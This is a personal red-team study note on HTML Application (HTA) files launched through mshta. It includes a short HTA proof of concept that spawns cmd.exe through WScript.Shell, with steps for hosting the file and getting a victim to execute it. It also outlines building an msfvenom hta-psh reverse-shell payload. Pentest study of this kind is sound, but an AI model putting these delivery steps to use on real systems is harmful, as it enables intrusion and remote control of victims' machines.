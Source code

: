 ```yaml
---
creation date: April 30th 2023
last modified date: April 30th 2023
aliases: [HTA - hta-psh]
tags: #📕
---
```


Primary Categories: [[01 - Pentest]] - [[01 - Red Team]]
Secondary Categories:  [[02 - Weaponization]]
Links: [[HTML]] - [[JScript]] - [[VBScript]] - [[LOLBINS]] - [[mshta]]
Search Tag: #📕  

# [[HTML Application]]  
___

## Description:  
This allows us to create downloadable file that takes all the information regarding how it is displayed and rendered. These are dynamic `HTML` pages containing `JScript` & `VBScript`. The LOLBIN tool `mshta` is used on Windows systems to execute the file as the highest trust level.

## Proof of Concept 
- This used **ActiveXObject** to boot up a cmd.exe
```HTML
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
- We utilize a quick http server using: `python -m http.server 4444`
	- Get the victims machine to navigate to  the webpage on Microsoft Edge and execute the file
- We can also use this to gain a **reverse shell** by generating a payload with `MsfVenom` with a `hta-psh` format and doing the same as above host the file and have the victim download / execute it


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 30th 2023 (10:34 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
